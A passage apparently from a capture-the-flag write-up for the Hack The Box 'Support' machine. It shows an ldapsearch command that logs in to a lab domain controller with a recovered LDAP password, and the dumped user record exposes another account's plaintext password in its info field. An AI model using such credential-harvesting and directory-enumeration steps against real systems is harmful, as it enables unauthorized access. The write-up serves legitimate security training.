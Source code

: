 This is our password for support!

```console
└──╼ [★]$ ldapsearch -x -H ldap://10.129.53.172 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"
# extended LDIF
#
# LDAPv3
# base <CN=Users,DC=support,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```
